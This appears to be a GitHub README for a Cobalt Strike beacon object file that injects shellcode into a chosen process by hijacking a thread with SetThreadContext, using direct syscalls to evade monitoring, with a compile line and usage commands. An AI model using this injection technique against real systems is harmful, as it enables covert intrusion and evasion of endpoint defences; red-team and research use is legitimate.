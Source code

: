 # Direct Syscall SetThreadContext Inject 

This is based on XPN's SetThreadContext technique as a beacon object file and using direct syscalls.

# Compile
`x86_64-w64-mingw32-gcc -c syscall_stcinject.c -o syscall_stcinject.o -masm=intel`

# Usage

NOTE: Currently only for x64

Load the CNA script in Cobalt Strike, then the following command will be included:

`syscall_stcinject PID Listener` - Inject shellcode created for listener to target PID

`syscall_stc_shinject PID /path/to/payload.bin` - Inject payload.bin file to target PID
